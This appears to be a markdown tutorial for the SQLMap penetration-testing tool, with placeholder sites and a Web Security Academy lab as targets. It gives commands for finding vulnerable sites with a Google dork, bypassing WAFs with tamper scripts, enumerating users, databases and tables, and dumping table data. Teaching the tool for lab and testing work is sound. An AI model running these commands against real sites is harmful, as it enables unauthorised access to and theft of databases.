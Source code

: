 # SQLMAP Usage Guide

SQLMap is an open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities.

## Target Options

### Basic Target Specification
```bash
# Specify a URL to test
sqlmap -u "http://www.websitesi.com/test.php?id=1"

# Use Google dork to find vulnerable targets
sqlmap -g ".php?id="
```

> *Note: **Google Dork** refers to search queries that help find specific types of vulnerable websites.*

## Injection Options

### Database Management System Specification
```bash
# Specify the DBMS type if known
sqlmap -u "www.siteadi.com/testet.php?id=1" --dbms="MySql"
```

### Tamper Scripts
```bash
# Use tamper scripts to bypass Web Application Firewalls (WAF)
sqlmap -u "www.siteadi.com/testet.php?id=1" --tamper="between"
```

### Payload Prefix
```bash
# Add a prefix to all payload injections
sqlmap -u "www.siteadi.com/testet.php?ad=deneme" --prefix "')"
```

## Enumeration Options

### User Enumeration
```bash
# Enumerate database users
sqlmap -u "www.siteadi.com/testet.php?id=1" --users
```

### Database Enumeration
```bash
# List all databases
sqlmap -u "www.siteadi.com/testet.php?id=1" --dbs
```

### Table Enumeration
```bash
# List all tables
sqlmap -u "www.siteadi.com/testet.php?id=1" --tables

# List tables for a specific database
sqlmap -u "www.siteadi.com/testet.php?id=1" -D veritabaniadi --tables
```

### Column Enumeration
```bash
# List all columns
sqlmap -u "www.siteadi.com/testet.php?id=1" --columns

# List columns for a specific table
sqlmap -u "www.siteadi.com/testet.php?id=1" -D veritabaniAdi -T tabloAdi --columns
```

### Data Extraction
```bash
# Dump data from a specified table
sqlmap -u "www.siteadi.com/testet.php?id=1" -D veritabaniAdi -T tabloAdi --dump
```

## Examples

```bash
# Get help information
python sqlmap.py -h

# Check databases on a vulnerable website
python sqlmap.py -u "https://0a2400f704d6ef0180ed946c00c80098.web-security-academy.net/" --dbs

# Examine the 'public' database
python sqlmap.py -u "https://0a2400f704d6ef0180ed946c00c80098.web-security-academy.net/filter?category=Gifts" -D public

# List tables in the 'public' database
python sqlmap.py -u "https://0a2400f704d6ef0180ed946c00c80098.web-security-academy.net/filter?category=Gifts" --tables -D public

# Dump all data from the 'public' database
python sqlmap.py -u "https://0a2400f704d6ef0180ed946c00c80098.web-security-academy.net/filter?category=Gifts" --tables -D public --dump
```